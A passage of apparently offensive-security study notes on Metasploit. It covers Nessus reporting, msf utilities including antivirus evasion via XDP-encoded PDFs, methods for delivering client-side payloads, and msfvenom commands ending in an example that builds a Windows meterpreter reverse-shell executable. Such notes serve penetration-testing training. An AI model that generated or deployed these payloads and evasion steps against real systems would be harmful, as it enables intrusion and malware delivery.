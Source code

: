 ```bash
nessus_report_vulns <Scan ID>
```
## msf utilities
Path  to the tools -> `/usr/share/metasploit-framework/tools`
- **msf-exe2vbs:** Convert an executable payload into `VBScript format`.
- **msf-exe2vba:** Convert an executable payload into `VBA format`.
- **msf-pdf2xdp:** At times, the PDF file gets flagged by the security software. It is possible to encode the malicious PDF in XDP format in order to evade the antivirus and other security software.
- **msf-msf_irb:** Built-in Ruby shell that can be used for post-exploitation capabilities (Can be invoked seperately).
- **msf-pattern_create:** Related to exploit-development.
- **msf-virustotal:** Accepts file samples as input and provides analysis on how many different antivirus engines were able to detect the file sample for the presence of malware.
- **msf-makeiplist:**  Make a range of IP's to scan.
```txt
#Create a file with a pattern like this:
192.168.1.0-150
#Then
msf-makeiplist -i <FILE>
#Output
192.168.1.1
192.168.1.2
192.168.1.3
.
.
etc..
```
# Client-Side attacks
- The attacker hosts a website with the required malicious payload and sends it to the victim.
- The attacker sends the payload embedded in any innocent-looking file, such as a DOC, PDF, or XLS, to the victim over email.
- The attacker sends the payload using an infected media drive (such as a USB flash drive, CD, or DVD).

## Msfvenom
The msfvenom utility can **generate a payload** as well as **encode it** in a single command. We shall look at a few commands next:
- **List payloads**
```bash
msfvenome --list payloads
```
- **List encoders**
```bash
msfvenome --list encoders
```
- **List formats**
```bash
msfvenome --help formats
```
- **List platforms**
```bash
msfvenome --help platforms
```
- **Example usage**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
> Cheatsheet : https://book.hacktricks.xyz/shells/shells/msfvenom
### Listeners